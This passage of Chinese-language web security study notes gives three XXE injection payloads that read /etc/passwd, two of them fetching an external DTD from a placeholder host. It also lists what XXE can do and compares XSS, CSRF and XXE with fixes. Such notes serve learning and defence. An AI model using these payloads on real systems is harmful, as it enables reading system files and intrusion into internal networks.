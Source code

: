 ```xml-dtd
<heading></heading>
<body></body>
</note>
```

#### 如何XXE注入？

```xml-dtd
FIRST
<?xml version="1.0"	?>
<!DOCTYPE a [
  <!ENTITY b SYSTEM "file:///etc/passwd">
  ]> 
<c>&b;</c>

SECOND
<?xml version="1.0"	?>
<!DOCTYPE a SYSTEM "http://xxxx.com/pass.dtd">
  ]> 
<c>&b;</c>

pass.dtd:
<!ENTITY b SYSTEM "file:///etc/passwd">

THIRD
<?xml version="1.0"	?>
<!DOCTYPE a [
  <!ENTITY % d SYSTEM "http://xxxx.com/pass.dtd">
    %d;
  ]> 
<c>&b;</c>

pass.dtd:
<!ENTITY b SYSTEM "file:///etc/passwd">
```

一般都支持的协议：HTTP/HTTPS FTP FILE

#### 危害：

- 读取任意文件
- 执行系统命令
- 探测内网端口
- 攻击内网网站

------

### CSRF、XXE、XSS区别？

XSS跨站脚本攻击：用户提交的数据中含有构造的代码，从而实现窃取信息等目标。修复方式：对用户输入的字符实体进行转义、通过HTTP Only字段来限制JS读取cookie、在输入时进行校验、浏览器与web应用端采用相同的字符编码

CSRF跨站请求伪造攻击：XSS是CSRF的一种，造成CSRF攻击的原因是没有服务器没有在执行关键操作时对是否位用户自愿发起的请求进行确认。修复方式：筛选出需要防范CSRF的页面，嵌入Token，再次输入密码、检验Referer
